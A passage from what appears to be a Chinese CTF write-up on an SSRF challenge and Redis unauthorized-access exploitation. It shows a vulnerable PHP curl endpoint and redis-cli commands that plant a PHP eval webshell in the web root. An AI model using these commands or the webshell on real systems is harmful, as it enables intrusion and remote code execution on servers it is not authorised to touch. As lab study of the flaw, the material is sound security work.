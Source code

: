 ```php
        echo $port." closed\n";
    }else{
        echo $port." Opend\n";
    }
}
```



```
you_cannot_guess_it
```



个人感觉就是`ssrf`大 `redis`授权反弹`shell`了！

```
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}
$url = $_GET['url'];
curl($url);
```



不会的话，那弟弟我只能学习下主从复制了！🐱‍👓🐱‍👓🐱‍👓

![image-20210923122307616](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923122307.png)

## Redis漏洞复现

实验环境！ 就正常开了两个`redis`实例！ 安全模式没观！

Redis未授权访问 就是没开`protected-mode` 开了后 就算远程连接上也会报错的！

### 1、Redis未授权访问写webshell

**利用条件：**

> 1. 存在Redis未授权访问
> 2. 登陆的用户具有读写权限
> 3. 知道网站的路径

![image-20210923122755194](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923122755.png)

```
redis-cli -h 192.168.59.129
set shell "\n\n<?php @eval($_POST['xigua']);?>\n\n"
config set dir /var/www/html/
config set dbfilename shell.php
save
```
